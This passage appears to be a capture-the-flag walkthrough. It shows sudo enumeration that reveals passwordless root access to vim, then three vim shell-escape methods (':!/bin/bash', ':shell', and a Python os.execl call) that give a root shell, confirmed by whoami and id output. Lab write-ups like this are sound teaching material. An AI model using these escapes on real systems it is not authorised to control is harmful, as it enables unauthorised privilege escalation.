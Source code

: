 ### Step 2: Sudo Privilege Enumeration

Check what commands the current user can run with sudo:

```bash
sudo -l
```

**Output:**
```
Matching Defaults entries for challenger on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

User challenger may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/vim
```

**Key Finding:** The user can run `vim` as root without a password!

### Step 3: Privilege Escalation via Vim

Vim has a well-known feature that allows command execution. We can exploit this to escalate privileges:

**Method 1: Direct Shell Escape**

```bash
sudo vim
```

Once vim opens, type:
```
:!/bin/bash
```

This spawns a root shell!

**Method 2: Using Vim's Shell Command**

```bash
sudo vim -c ':!/bin/bash'
```

Alternatively, use:
```bash
sudo vim -c ':shell'
```

**Method 3: GTFOBins Technique**

```bash
sudo vim -c ':py3 import os; os.execl("/bin/bash", "bash", "-c", "reset; exec bash")'
```

After executing any of these methods, verify root access:

```bash
whoami
# Output: root
id
# Output: uid=0(root) gid=0(root) groups=0(root)
```
